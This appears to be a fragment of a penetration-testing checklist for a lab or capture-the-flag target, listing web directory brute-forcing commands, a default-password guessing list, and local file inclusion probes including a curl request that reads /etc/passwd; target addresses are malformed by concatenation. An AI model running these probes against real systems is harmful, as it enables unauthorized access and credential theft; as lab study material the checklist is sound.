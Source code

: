 #### Nikto scan


INSERTNIKTOSCAN


#### Url brute force

```
# Not recursive
dirb http://10.10.10.8710.10.10.102 -r -o dirb-10.10.10.8710.10.10.102.txt

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://10.10.10.8710.10.10.102 -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

INSERTDIRBSCAN


#### Default/Weak login

Search documentation for default passwords and test them

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin <servicename>
root root
root admin
root password
root <servicename>
<username if you have> password
<username if you have> admin
<username if you have> username
username <servicename>
```


#### LFI/RFI




```
fimap -u "http://10.10.10.8710.10.10.102/example.php?test="

# Ordered output
curl -s http://10.10.10.8710.10.10.102/gallery.php?page=/etc/passwd
/root/Tools/Kadimus/kadimus -u http://10.10.10.8710.10.10.102/example.php?page=
```

#### SQL-Injection
